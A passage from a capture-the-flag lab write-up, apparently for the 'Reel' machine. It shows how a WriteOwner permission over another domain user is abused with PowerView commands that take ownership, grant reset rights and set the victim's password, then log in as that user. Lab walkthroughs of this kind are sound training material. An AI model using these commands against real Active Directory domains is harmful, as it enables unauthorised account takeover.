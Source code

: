 ```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>dir                              
 Volume in drive C has no label.                                                             
 Volume Serial Number is CEBA-B613                                                           

 Directory of C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors                             

05/29/2018  08:57 PM    <DIR>          .                                                     
05/29/2018  08:57 PM    <DIR>          ..                                                    
11/17/2017  12:50 AM           112,225 acls.csv                                              
10/28/2017  09:50 PM             3,549 BloodHound.bin                                        
10/24/2017  04:27 PM           246,489 BloodHound_Old.ps1                                    
10/24/2017  04:27 PM           568,832 SharpHound.exe                                        
10/24/2017  04:27 PM           636,959 SharpHound.ps1
```

So there's already a `csv` file present with the ACLs we need. I transferred file back to my machine via `smbserver.py`, and opened it in `libreoffice`. Then, I searched for the user `tom` to see if they had any permissions.

I found that our current user has WriteOwner permissions over the user `claire`.

<figure><img src="../../../.gitbook/assets/image (4037).png" alt=""><figcaption></figcaption></figure>

This would mean that `tom` can add permissions over `claire`, of which we don't have any yet. To abuse this, we first need to set `tom` as the owner of the ACLs over `claire` using PowerView.&#x20;

Oddly, there's a copy of PowerView on the machine already:

```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>dir                                        
 Volume in drive C has no label.                                                             
 Volume Serial Number is CEBA-B613                                                           

 Directory of C:\Users\tom\Desktop\AD Audit\BloodHound                                       

05/30/2018  12:44 AM    <DIR>          .                                                     
05/30/2018  12:44 AM    <DIR>          ..                                                    
06/16/2023  03:09 AM    <DIR>          Ingestors                                             
10/30/2017  11:15 PM           769,587 PowerView.ps1
```

I originally tried copying over my own copy and executing it, but AppLocker kept blocking me. However, using the already present script works. We can then abuse this ACL by setting `tom` as the object owner and changing passwords of `claire`:

```powershell
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom    
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
Set-DomainUserPassword -identity claire -accountpassword $cred                                 
```

Afterwards, we can `ssh` in as `claire` using this password.&#x20;
